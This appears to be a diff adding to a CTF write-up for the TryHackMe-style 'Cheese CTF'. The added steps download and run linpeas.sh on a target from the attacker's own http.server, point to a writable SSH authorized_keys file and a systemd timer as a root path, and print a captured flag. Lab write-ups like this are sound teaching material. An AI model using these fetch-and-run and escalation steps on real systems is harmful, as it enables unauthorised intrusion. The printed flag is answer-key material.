

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: Cheese CTF.md, 2 parts joined by grey strips. Shown at 99% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Cheese CTF.md
+++ b/Cheese CTF.md
@@ -261,3 +261,47 @@ stty raw -echo && fg
 
 
 As www-data, we cannot find the flag directly in its home directory. We first conveniently enumerate the target using Linpeas.
+
+
+open linpeas dir in your pc and write:
+
+```
+python3 -m http.server 5555
+```
+
+on server write:
+
+```
+cd /tmp
+```
+
+```
+wget http://10.8.47.102:5555/linpeas.sh
+```
+
+```
+chmod +x linpeas.sh
+```
+
+```
+./linpeas.sh
+```
+
+found that
+
+![image](https://github.com/user-attachments/assets/576e7430-cd90-4f0d-afdf-d1bdddee6bf3)
+
+```
+/etc/systemd/system/exploit.timer
+```
+
+can help us later when want to get root
+
+found also that we can write in this file
+
+![image](https://github.com/user-attachments/assets/543010f0-cb4b-4242-b643-8e09ec9dfbbd)
+
+```
+/home/comte/.ssh/authorized_keys
+```
+
@@ -263,0 +339,8 @@ As www-data, we cannot find the flag directly in its home directory. We first co
+```
+THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}
+```
+
+![image](https://github.com/user-attachments/assets/0f3f335e-ec60-47b3-96b6-c22545fa7c85)
+
+
+oh so now will return to this ``/etc/systemd/system/exploit.timer`` and ``/etc/systemd/system/exploit.service``
````
Also changed, not shown: other parts of Cheese CTF.md (+31 -0 lines).
